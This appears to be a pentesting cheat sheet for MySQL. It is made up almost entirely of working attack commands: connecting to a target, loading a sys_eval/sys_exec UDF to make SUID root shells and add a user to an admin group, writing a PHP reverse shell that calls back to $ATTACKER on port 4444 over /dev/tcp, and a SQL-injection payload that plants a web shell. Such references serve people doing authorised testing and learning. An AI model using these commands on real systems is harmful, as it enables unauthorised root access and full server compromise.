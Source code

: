 
Connect to MYSQL server:
---
#mysql #connect

```bash
mysql -h $TARGET_IP -u $USER -p
```
Show list of databases:
```mysql
show databases;
```
Show list of tables in current DB:
```mysql
show tables;
```
Priv esc if running as root:
#mysql #privesc #priv-esc

```mysql
use mysql;
show tables;
select * from func;
CREATE FUNCTION sys_eval RETURNS INT SONAME 'lib_mysqludf_sys.so';
SELECT sys_eval("cp /bin/bash /var/tmp/bash ; chmod u+s /var/tmp/bash");
```

OR

```sql
select sys_exec('cp /bin/sh /tmp; chown root:root /tmp/sh; chmod +s /tmp/sh');
select sys_exec('usermod -a -G admin USER');
```

```bash
cd /var/tmp
./bash -p
```

```sql
select "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/$ATTACKER/4444 0>&1'\");?>" into outfile "/var/www/.../shell.php";
```
---
write PHP into web tmp directory:
#mysql-shell

```sql
' UNION SELECT "<?php exec($_GET['cmd']);?>", null, null, INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```